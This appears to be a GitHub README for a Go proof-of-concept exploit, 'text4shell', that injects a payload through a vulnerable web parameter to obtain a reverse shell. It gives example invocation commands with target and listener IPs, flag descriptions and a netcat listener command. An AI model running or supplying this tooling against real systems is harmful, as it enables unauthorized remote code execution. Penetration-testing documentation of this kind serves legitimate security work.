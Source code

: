 # Text4shell script in go

This Go script provides a proof of concept for a reverse shell attack. It creates a shell script and serves it to a target machine through a vulnerable web server. The script is designed to be used in a controlled and authorized environment for educational or penetration testing purposes only.

## Usage

1. Clone the repository:

```bash
   git clone <repository_url>
   cd <repository_directory>
```
2. Run the script

```bash
Example: ./text4shell --ip 192.168.204.150 --port 8080 --endpoint /search --parameter query  --local-ip 192.168.45.226 --local-port 4444

./text4shell --ip <target_ip> --port <target_port> --endpoint <target_endpoint> --parameter <injection_parameter> --local-ip <your_ip> --local-port <your_port>

Replace <target_ip>, <target_port>, <target_endpoint>, <injection_parameter>, <your_ip>, and <your_port> with the appropriate values.

Follow the prompts to save the script on the target and initiate the reverse shell.

```

3. Optional, build the binary

In case you wan to make some changes to the script, make your changes and compile

```bash
go build main.go
```

## Flags

```
--ip: Target URL including the parameter to inject.
--port: Port where the target application is running (default: 8000).
--endpoint: Endpoint to target.
--parameter: Parameter to inject payload.
--local-ip: IP to listen on for the reverse shell.
--local-port: Port to listen on for the reverse shell (default: 4444).

```

## Reverse Shell

The script creates a reverse shell connection to your machine. To interact with the shell:

Start a netcat listener on your machine:

```bash
nc -lvnp <your_port>
```

## Disclaimer

This script is for educational and authorized penetration testing purposes only. Use it responsibly and in compliance with applicable laws and regulations.
